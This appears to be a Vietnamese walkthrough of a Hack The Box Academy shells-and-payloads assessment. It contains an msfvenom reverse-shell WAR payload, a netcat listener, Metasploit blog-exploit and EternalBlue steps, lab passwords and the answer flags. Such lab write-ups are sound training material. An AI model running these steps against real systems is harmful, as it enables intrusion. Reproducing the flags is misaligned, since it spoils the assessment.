

Đăng nhập thành công, 1 cửa sổ terminal hiện ra



Chạy lệnh `whoami` để lấy đáp án

> **Đáp án:** `iis apppool\status`

---

### Q18: In the example shown, what must the Content-Type be changed to in order to successfully upload the web shell? (Format: .../... )

Dựa theo gợi ý và ví dụ đã làm ở trên trong bài module này ta lấy được đáp án của cả 2 `Q18` và `Q19`

> **Đáp án:** `image/gif`

---

### Q19: Use what you learned from the module to gain a web shell. What is the file name of the gif in the /images/vendor directory on the target? (Format: xxxx.gif)

> **Đáp án:** `ajax-loader.gif`

---

### Q20: What is the hostname of Host-1? (Format: all lower case)

Ta kết nối RDP đế máy chủ:  
`xfreerdp /v:<IP> /u:htb-student /p:'HTB_@cademy_stdnt!`



Đăng nhập:  
`username: htb-student`  
`password: HTB_@cademy_stdnt!'



Ta tiến hành kiểm tra xem IP của máy chủ:  



host1 là ens224 với ip: 172.16.1.5



Tiến hành quét sâu vào các dịch vụ đang chạy trên dải mạng, ta thấy có 3 IP:  
`172.16.1.5` là host 1 hiện tại  
`172.16.1.11` là host 2  
`172.16.1.12` là host 3



Quét nmap host 1 để lấy đáp án

> **Đáp án:** `shells-winsvr`

---

### Q21: Exploit the target and gain a shell session. Submit the name of the folder located in C:\Shares\ (Format: all lower case)

Ở kết quả nmap ở trên ta thấy host 1 có mở cổng 80 là giao thức http, ta truy cập vào web thông qua port 80



Vào mục `Host Manager`



Ta sẽ tiến hành upload file chứa mã độc vào đây rồi chiếm quyền điều khiển



mình sẽ dùng sẵn bộ công cụ mã độc java trong msfvenom  
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=443 -f war > shell.war`  
Đồng thời, ở terminal khác mình sẽ mở sẵn cổng lắng nghe ở cổng 443: `sudo nc -lvnp 443`



Sau khi upload file lên và chạy file trên web, ta nhìn ở terminal đang mở cổng lắng nghe 443 đã bắt được thành công



Chạy lệnh `dir` để lấy đáp án

> **Đáp án:** `dev-share`

---

### Q22: What distribution of Linux is running on Host-2? (Format: distro name, all lower case)

Tiến hành nmap IP của cổng 2 là: `nmap -A 172.16.1.12`



Như ta thấy Host 2 chạy hệ điều hành Ubuntu

> **Đáp án:** `Ubuntu`

---

### Q23: What language is the shell written in that gets uploaded when using the 50064.rb exploit?

Ta tiến hành truy cập vào trang web `blog.inlanefreight.local` với IP `172.16.1.12` như ta đã tìm được ở trên  
Tiến hành đăng nhập bằng tài khoản và mật khẩu ở màn hình Desktop có: `admin:admin123!@#`



Như ta có thể thấy 1 bài viết do chính người dùng này đăng lên về `50064.rb exploit` được viết bằng ngôn ngữ php

> **Đáp án:** `PHP`

---

### Q24: Exploit the blog site and establish a shell session with the target OS. Submit the contents of /customscripts/flag.txt

Ta sẽ dùng luôn mã độc `50064.rb` này để khai thác shell session  



Copy mã độc này sang 1 file khác để thực thi metasploit thuận tiện hơn



Mở metasploit lên rồi dùng file vừa copy



Ta sẽ tiến hành cài đặt trong options: 




Chạy lần lượt các câu lệnh:  
`set RHOSTS 172.16.1.12`  
`set USERNAME admin`  
`set PASSWORD admin123!@#`   
`set VHOST blog.inlanefreight.local`  

Màn hình ra tab `meterpreter`

chạy lệnh `cat /customscripts/flag.txt` rồi lấy đáp án

> **Đáp án:** `B1nD_Shells_r_cool`

---

### Q25: What is the hostname of Host-3?

Thực hiện nmap quét IP của host 3:

`nmap -A 172.16.1.13`

như ta có thể thấy hostname là: SHELLS-WINBLUE

> **Đáp án:** `SHELLS-WINBLUE`

---

### Q26: Exploit and gain a shell session with Host-3. Then submit the contents of C:\Users\Administrator\Desktop\Skills-flag.txt

Ta tiến hành mở metasploit và tìm các module liên quan về `eternalblue`

Ta sẽ dùng module 1  
Lệnh: `use windows/smb/ms17_010_psexec` để dùng module 1

Cấu hình trong options:  
`set LHOST 172.16.1.5`  
`set RHOSTS 172.16.1.13`

Tiến hành quét trên metasploit

Sau khi màn hình hiện ra tab: `meterpreter` ta chạy lệnh `search -f Skills-flag.txt` để tìm đáp án

Và ta đã tìm thấy đáp án

> **Đáp án:** `One-H0st-Down!`
